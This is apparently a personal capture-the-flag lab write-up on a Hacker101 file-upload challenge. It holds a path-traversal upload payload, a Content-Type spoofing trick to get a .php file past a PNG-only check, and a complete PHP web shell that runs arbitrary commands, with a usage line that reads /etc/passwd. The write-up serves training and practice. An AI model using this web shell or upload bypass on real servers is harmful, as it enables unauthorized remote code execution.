 The App is has a file upload mechanism and possibly also stores files.

App error while uploading:

`ERROR: Only PNG format supported in trial.`

Gobuster finds a few interesting directories.

I upload the correct file type which directs me to a new page which displays the image.

`https://4edd3b950bdd6af681d525c5b016fe5e.ctf.hacker101.com/files/fdfc1bceea7a0ff6b9bc8edc6f412670_tanya2.png`

I try accessing just the files folder:

`You don't have permission to access /files/ on this server.`

This could be some type of directory traversal required to complete the room.

The error also discloses server information:

`Apache/2.4.7 (Ubuntu) Server at 4edd3b950bdd6af681d525c5b016fe5e.ctf.hacker101.com Port 80`

I find an exploit related to the server. This probably isn't the way to complete the lab, but it's good practice. 

_Apache 2.4.7 + PHP 7.0.2 - 'openssl_seal()' Uninitialized Memory Code Execution_
https://www.exploit-db.com/exploits/40142

I modify the request to try uploading the file into a different location with path traversal:

![[Pasted image 20240908050509.png]]

Payload:

`/../../tanya2.png`

This seems puts me in the index.php

In the response i get a flag.
`^FLAG^d64d564fc633eea2d855780c38543fc0b04efe731438a1afd58ad5d2a9fcb1af$FLAG$`

![[Pasted image 20240908050743.png]]

I now know i can upload to index.php allowing me to execute php and get code execution. 

Exploit:
`/usr/share/webshells/php/simple-backdoor.php`

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

Payload:
`/../../tanya2.php`

![[Pasted image 20240908051546.png]]

You can see on the response tab where the file will be put. 
`Location: files/9407206a6501d224f798d14e4c7778d2_/../../tanya2.php`

This should allow me to get RCE on the web-server. 

![[Pasted image 20240908051941.png]]

_Probably you are worried that the server won't let me upload the file as now it is .php and not .png as should, but actually the server does not care about the extension of the file, it cares about the header Content-type, which specify the type of the content delivered in the request._

_As long as you keep the value of the header as PNG, the server will allow your request: Content-Type: image/png_.

I run id and as expected i'm on `www-data` account. I take a look to see if it has netcat installed with `which+nc` and it returns with the response teeling me it's in `/bin/nc` so i know it's installed.

I `ls` list my current directory:

```php
000-default.conf
Dockerfile
doUpload.php
files
index.php
php.ini
setup.sh
tanya2.php
tanya2.png
upload.php
```

I cat the `index.php` file and find another flag.
`^FLAG^f3ef2d438e4758ca559b2a35373e805251383a2c672fdae0dcac8121bf20adf9$FLAG$`

![[Pasted image 20240908053220.png]]

Looking at the lab again i notice i only required the two flags so no need to get any type of web shell.

---

**Completed:** _05:33 2024-09-08_

